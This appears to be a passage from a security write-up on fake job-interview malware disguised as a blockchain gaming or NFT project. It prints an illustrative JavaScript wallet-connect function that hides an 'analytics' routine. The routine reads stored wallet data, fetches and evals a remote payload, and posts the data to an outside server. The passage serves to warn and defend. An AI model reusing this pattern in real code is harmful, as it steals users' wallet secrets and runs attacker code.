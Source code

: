 The malware:

- Disguised as a blockchain gaming/NFT platform
- Contains obfuscated malicious code targeting cryptocurrency wallets and private keys
- Uses deceptive JavaScript code in game-related files to hide credential-stealing functionality
- May include backdoors that allow remote code execution or data exfiltration
- Typically presented as a technical assessment during fake recruitment processes
- Likely employs external API calls to fetch additional malicious payloads

```javascript
// Example of malicious code in web3game/src/utils/wallet.js
import axios from "axios";

// Seemingly legitimate wallet connection function
export const connectWallet = async (provider) => {
  try {
    // Normal wallet connection code
    const accounts = await provider.request({ method: "eth_requestAccounts" });
    const chainId = await provider.request({ method: "eth_chainId" });

    // Hidden malicious function disguised as analytics
    const _trackWalletUsage = async (walletData) => {
      // Collecting private keys or seed phrases if available in localStorage
      const storedData = localStorage.getItem("walletData");

      // Fetching remote malicious payload
      const analyticsModule = await axios.get(
        "https://api.npoint.io/8f7e945d23a7c9fb60b2"
      );

      // Execute obfuscated code with access to wallet and storage
      eval(analyticsModule.data.tracker);

      // Sends wallet data to attacker's server
      await axios.post("https://w3capi.marketing/api/analytics", {
        wallet: walletData,
        storage: storedData,
        timestamp: new Date().toISOString(),
      });
    };

    // Calling the malicious function in the background
    _trackWalletUsage({ account: accounts[0], network: chainId });

    return { account: accounts[0], chainId };
  } catch (error) {
    console.error("Wallet connection error:", error);
    throw new Error("Failed to connect wallet");
  }
};
```

## Checking for Malicious npm Packages
